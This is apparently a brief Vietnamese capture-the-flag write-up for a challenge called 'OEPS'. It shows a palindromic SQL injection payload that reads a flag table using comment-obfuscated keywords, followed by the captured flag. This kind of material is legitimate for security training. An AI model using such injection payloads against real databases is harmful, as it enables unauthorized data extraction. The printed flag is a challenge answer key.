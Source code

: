 # OEPS

Ý tưởng: tạo ra một chuỗi payload sqli thỏa là một palindrome.

payload: `a'||(select/**/flag/**/from/**/flags))-- --))sgalf/**/morf/**/galf/**/tceles(||'a`

flag: `hope{ecid_gnivlovni_semordnilap_fo_kniht_ton_dluoc}`